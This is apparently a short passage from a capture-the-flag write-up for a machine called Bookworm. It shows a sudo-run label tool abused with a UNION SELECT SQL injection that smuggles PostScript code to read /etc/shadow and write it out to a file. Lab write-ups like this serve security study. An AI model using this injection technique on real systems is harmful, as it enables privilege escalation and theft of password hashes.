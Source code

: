 ![](/images/bookworm/2024-01-25-11-43-31.png)

Nah Sql injection has been injected because i've used 1-7 numbers using Union Select and the output shows 1-7 numbers .

# Postscript Write file and read

# Read

```
neil@bookworm:~$ sudo genlabel '1111 UNION SELECT "test)
> /inputfile (/etc/shadow)
> /inputfile (/etc/shadow) (r) file def
> inputfile 10000 string readstring
> pop
> inputfile closefile
> /outfile (output.txt) (w) file def (the output on /etc/shadow will saved as output.txt)
> outfile exch  writestring
> outfile closefile 
> (test", 2,3,4,5,6,7' 
Fetching order...
Generating PostScript file...
Generating PDF (until the printer gets fixed...)
Documents available in /tmp/tmphllwqy1wprintgen
```
